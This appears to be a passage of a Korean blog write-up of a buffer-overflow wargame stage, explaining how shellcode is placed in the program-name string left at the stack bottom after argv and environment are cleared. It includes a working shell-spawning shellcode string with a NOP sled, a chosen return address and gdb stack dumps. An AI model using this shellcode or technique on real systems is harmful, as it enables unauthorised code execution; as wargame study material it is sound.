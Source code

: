 #### memset() 하기 이전

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-2.png)

#### memset() 한 이후 : argv[] 를 모두 0으로 clear

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-1.png)

## 2. 공격 방법 고민

환경변수도 clear 시키고… argv[] 도 모두 clear 시킨다. 그렇다면 shellcode 를 어디에 올려놓을 수 있을까 ???

### Stack을 좀더 찾아보자

혹시나 하는 마음에 stack bottom 까지 찾아보자. 앗… stack bottom 에 뭔가 값이 남아있다. main 함수가 실행되기 이전에 실행파일이름이 스택에 저장이 되는 듯하다. main 함수 실행되기 이전 stack 에 쌓이기 때문에 argc hunter 동작이후에도 남아있는 듯 하다.

```bash
0xbfffffe1:      ""
0xbfffffe2:      "/home/vampire/./skeleton2"
0xbffffffc:      ""

0xbfffffcc:     0x00000000      0x00000000      0x00000000      0x00000000
0xbfffffdc:     0x00000000      0x682f0000      0x2f656d6f      0x706d6176
0xbfffffec:     0x2f657269      0x6b732f2e      0x74656c65      0x00326e6f
0xbffffffc:     0x00000000      Cannot access memory at address 0xc0000000
```

## 3. 공격

### 3.1  공격.. 계속 실패

[LEVEL8](http://humb1ec0ding.github.io/2015/11/13/hackerschool-BoF-stage-8.html)에서 사용한 실행파일이름에 shellcode 를 올려두어야 하므로 `0x2f`=`\` 없는 shellcode 를 이용해야 한다. 아래 shellcoe 를 이용하여 이전과 같은 방식으로 실행을 하는데 계속 fault 가 나는 것이다.

```bash
`python -c 'print "\x90"*50 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

`LR`은 `0xbfffffa0` 로 선택.

```bash
0xbffffed0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffee0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffef0:     0x00000000      0x6f682f00      0x762f656d      0x69706d61
0xbfffff00:     0x902f6572      0x90909090      0x90909090      0x90909090
0xbfffff10:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff20:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff30:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff40:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff50:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff60:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff70:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff80:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffff90:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffffa0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffffb0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbfffffc0:     0x90909090      0x90909090      0xeb909090      0xc9315e11
0xbfffffd0:     0x6c8032b1      0x8001ff0e      0xf67501e9      0xeae805eb
0xbfffffe0:     0x32ffffff      0x306951c1      0x69697430      0x6f6a6330
0xbffffff0:     0x5451e48a      0xb19ae28a      0x0081ce0c      0x00000000
0xc0000000:     Cannot access memory at address 0xc0000000
```